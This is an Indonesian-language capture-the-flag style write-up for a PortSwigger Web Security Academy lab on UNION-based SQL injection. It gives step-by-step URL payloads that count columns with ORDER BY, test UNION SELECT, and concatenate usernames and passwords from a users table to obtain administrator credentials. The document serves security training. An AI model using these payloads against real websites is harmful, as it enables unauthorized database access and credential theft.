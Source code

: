 # SQL injection UNION attack, retrieving multiple values in a single column

## Link Resource

https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column

## Jawaban + Bukti

![sql](../../img/sqli-unioncolumn)

### Step-by-step

![sql](../../img/sqli-unioncolumn/soal.png)

1. pada lab ini kita diminta untuk:

- Menggunakan UNION-based SQL injection
- Menggabungkan (concatenate) nilai username dan password ke dalam satu kolom hasil query.
- Mendapatkan kredensial administrator.

![sql](../../img/sqli-unioncolumn/intercept.png)

2. kita dapat menggunakan burpsuite untuk melakukan intercept pada kategori gifts `GET /filter?category=Gifts`

![sql](../../img/sqli-unioncolumn/2.png)

3. kemudian kita dapat menentukan jumlah kolom dengan ORDER BY `/filter?category=Gifts'+ORDER+BY+2--` sesuai dengan gambar diatas yang mana jika tidak error berarti jumlah kolom minimal 2 kolom.

![sql](../../img/sqli-unioncolumn/3.png)

4. lalu Tes UNION SELECT valid `/filter?category=Gifts'+UNION+SELECT+NULL,NULL--`

![sql](../../img/sqli-unioncolumn)

5. gabungkan username dan password `/filter?category=Gifts'+UNION+SELECT+NULL,username||':password is:'||password+FROM+users--` Karena kita diminta menampilkan dua nilai dalam satu kolom, kita gunakan concatenation operator (||) di Oracle (atau CONCAT() di MySQL).

### Catatan

-
